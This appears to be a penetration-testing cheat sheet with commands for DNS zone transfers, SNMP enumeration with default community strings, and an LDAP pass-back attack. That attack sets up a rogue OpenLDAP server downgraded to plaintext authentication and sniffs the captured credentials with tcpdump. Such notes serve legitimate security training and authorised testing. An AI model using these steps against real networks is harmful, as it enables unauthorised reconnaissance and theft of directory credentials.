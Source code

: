 `dig -t AXFR DOMAIN_NAME @DNS_SERVER` **The -t AXFR indicates that we are requesting a zone transfer, while @ precedes the DNS_SERVER that we want to query regarding the records related to the specified DOMAIN_NAME**
# Simple Network Management Protocol (SNMP) [Need more tools like snmpwalk to add to this toolset]
*Designed to help collect information about different devices on the network.*
`git clone https://gitlab.com/kalilinux/packages/snmpcheck.git
cd snmpcheck/
gem install snmp
chmod +x snmpcheck-1.9.rb
snmpcheck.rb 10.10.235.90 -c COMMUNITY_STRING`
*or*
`snmpwalk -v1 -c public 10.10.114.235`
**Community string is default some times to Public, but it can be found on other devices like routers and etc.The “SNMP community string” is like a user ID or password that allows access to a router's or other device's statistics.**

# Force GPO sync
`gpupdate /force`


# LDAP Pass-back Attacks
LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified.We can alter the LDAP configuration, such as the IP or hostname of the LDAP server to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.

# Setup an LDAP server
`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
`sudo dpkg-reconfigure -p low slapd`
*Omit OpenLDAP server configuration -> No*
*DNS domain name,Organisation name -> Attacking.domain.com*
*Provide admin pass*
*Remove when purged -> No*
*Move old Database-> yes*

# Make our server to only support PLAIN and LOGIN authentication methods
*Create a file with name -> olcSaslSecProps.ldif*
*Write that in file*
`
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
`
`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`*Configure*
`sudo tcpdump -SX -i eth0 tcp port 389`*Capture traffic on ldap server and check the credentials*

